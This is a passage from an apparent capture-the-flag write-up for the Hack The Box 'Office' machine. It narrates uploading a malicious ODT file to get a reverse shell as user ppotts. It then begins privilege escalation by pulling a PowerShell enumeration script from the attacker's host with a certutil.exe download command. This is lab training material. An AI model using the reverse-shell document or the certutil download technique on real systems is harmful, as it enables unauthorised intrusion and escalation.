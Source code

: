 Let's upload the malicious odt file to the form:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-50.png)

It is uploaded successfully:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-49.png)

Within few seconds, reverse shell connection is spawned on our local netcat listener as the user **ppotts**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-51.png)



## Privesc: ppotts to hhogan
### JAWS

Let's run automation script for privilege escalation. 

We will upload **jaws-enum.ps1** using certutil.exe:

`certutil.exe -urlcache -split -f http://10.10.14.36:1236/jaws-enum.ps1`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-52.png)

We can launch the scan using the command: `./jaws-enum.ps1`
